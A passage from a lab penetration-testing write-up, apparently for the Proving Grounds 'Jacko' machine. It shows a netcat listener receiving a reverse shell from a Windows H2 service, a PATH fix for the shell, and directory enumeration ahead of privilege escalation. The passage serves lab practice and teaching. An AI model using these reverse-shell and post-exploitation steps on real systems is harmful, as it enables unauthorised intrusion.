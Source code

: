 And on the netcat listener

```
                                                                                                        
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Jacko]
└─$ nc -lvnp 8082
listening on [any] 8082 ...
connect to [192.168.49.88] from (UNKNOWN) [192.168.88.66] 49751
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\H2\service>

```

Now lets escalate our privilege to admin

But before that our shell is behaving funky cause the path isn't correct

We can easily fix that by doing `set PATH=%SystemRoot%\system32;%SystemRoot%;%SystemRoot%\system32\windowspowershell\v1.0\;`

Now on checking the application installed directory `C:\program files (x86)`

We see a weird application

```
c:\>cd "Program Files (x86)"
cd "Program Files (x86)"

c:\Program Files (x86)>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC2F-6399

 Directory of c:\Program Files (x86)

04/27/2020  08:01 PM    <DIR>          .
04/27/2020  08:01 PM    <DIR>          ..
04/27/2020  07:59 PM    <DIR>          Common Files
04/27/2020  08:01 PM    <DIR>          fiScanner
04/27/2020  07:59 PM    <DIR>          H2
04/24/2020  08:50 AM    <DIR>          Internet Explorer
03/18/2019  08:52 PM    <DIR>          Microsoft.NET
04/27/2020  08:01 PM    <DIR>          PaperStream IP
03/18/2019  10:20 PM    <DIR>          Windows Defender
03/18/2019  08:52 PM    <DIR>          Windows Mail
04/24/2020  08:50 AM    <DIR>          Windows Media Player
03/18/2019  10:23 PM    <DIR>          Windows Multimedia Platform
03/18/2019  09:02 PM    <DIR>          Windows NT
03/18/2019  10:23 PM    <DIR>          Windows Photo Viewer
03/18/2019  10:23 PM    <DIR>          Windows Portable Devices
03/18/2019  08:52 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              16 Dir(s)   6,915,297,280 bytes free

c:\Program Files (x86)>
```
